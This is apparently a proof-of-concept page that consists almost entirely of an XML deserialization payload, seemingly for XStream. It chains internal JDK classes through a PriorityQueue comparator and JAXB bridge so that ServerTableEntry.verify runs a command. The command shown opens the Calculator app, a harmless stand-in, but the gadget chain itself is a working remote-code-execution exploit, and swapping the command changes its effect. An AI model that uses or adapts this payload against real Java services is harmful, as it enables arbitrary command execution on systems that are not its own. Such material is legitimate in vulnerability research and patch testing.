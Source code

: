### [](#POC-1 "POC")POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
```